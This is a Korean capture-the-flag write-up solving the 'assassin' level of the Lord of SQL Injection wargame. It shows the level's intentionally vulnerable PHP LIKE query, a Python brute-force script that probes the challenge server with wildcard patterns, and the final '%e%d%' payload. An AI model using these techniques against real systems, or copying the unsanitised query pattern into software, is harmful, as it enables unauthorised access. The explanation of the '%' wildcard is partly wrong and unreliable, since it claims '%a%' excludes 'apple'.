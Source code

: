 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에는 문제 이름이 몬스터 이름이 아니다.  

`assassin` 문제인데, 개인적으로 재밌던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select id from prob_assassin where pw like ''
----------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

필터링이 `'(싱글쿼터)` 딱 한개만 있다.  

그리고 `=` 대신에 `like`이 쓰였다.  

처음에는 `'`를 우회하는 방법이 있을 거라고 생각 해 이 부분에 초점을 맞추어 문제를 풀어보려 했다.  

그런데 아무리 해도 우회를 하는 방법을 찾을수가 없었다.  

그러다 눈에 띈 부분이 왜 `=`가 아니라 `like`을 사용 했을까 였다.  

나는 단순히 `=`와 `like`가 동일하다고 생각했는데, 뭔가 다른 점이 있을 것 같았다.  

그래서 구글에 `mysql like`이라고 검색을 해봤는데, `%`를 알게 되었다.  

`like`을 사용한다면, `%`를 이용 해 특정 문자가 있는 행을 추출할 수 있다.  

예를 들어 아래와 같은 쿼리문이 있다고 가정해보자.  

```
select * from user where id like '%a%';
```

이 경우, `%`는 `모든 문자`를 의미하게 된다.  

때문에 `%a%`라고 한다면, `a`의 앞뒤로 어떠한 문자가 있는 경우를 말한다.  

즉, `man`, `woman` 등은 `a`의 앞뒤로 문자가 있어 조건에 부합하게 된다.  

반면 `apple`는 `a`의 앞에 문자가 없기 때문에 조건에 맞지 않는다.  

그래서 이 방법을 가지고 `assassin` 문제를 풀기로 했다.  

가장 먼저 테스트 한 것은 그냥 `%`만 입력 해 보는 것이었다.  

`pw`에 분명 문자가 있을테니, `pw`에 `뭐라도 문자가 있는 행`을 추출 해 보려 했다.  

그런데 `Hello guest`가 출력되었다.  

아마도 테이블에 `guest`가 `admin`보다 위에 있어 먼저 추출 된 것 같다.  

그래서 이번에는 `%a%` 형태로 만들어서 하나하나 테스트 해 보기로 했다.  

손으로 하려다가 귀찮아져서 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for i in range(48, 128):
	try:
		query = url + chr(i) + "%"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		flag += chr(i)
		print "[+] Found :", flag

print "[+] Found password : ", flag
print "[+] End"
```

그런데 결과가 안나왔다.(눙물...)  

그래서 이번에는 `Hello guest`가 출력되는 문자를 찾도록 조건문을 수정 해 다시 테스트 해 보았다.  

그 결과 아래와 같은 문자들을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found : 0
[+] Found : 01
[+] Found : 012
[+] Found : 0129
[+] Found : 0129D
[+] Found : 0129DE
[+] Found : 0129DEF
[+] Found : 0129DEF_
[+] Found : 0129DEF_d
[+] Found : 0129DEF_de
[+] Found : 0129DEF_def
[+] Found password :  0129DEF_def
[+] End
```

아마도 테이블에서 `guest`와 `admin`의 `pw`가 같은 문자들로만 이루어져 있고, `guest`가 `admin`보다 위에 있어 `guest`만 출력되는 것 같다.  

그래서 저 문자를 적절하게 조합하면 `admin`을 얻을 수 있지 않을까 생각 해, 이것저것 시도 해 보다 보니 아래와 같이 입력했을 때 문제를 풀 수 있었다.  

```
?pw=%e%d%
```

```php
-------------------------------------------------------------------------------
query : select id from prob_assassin where pw like '%e%d%'
-------------------------------------------------------------------------------

Hello admin
ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

`ASSASSIN Clear!!`
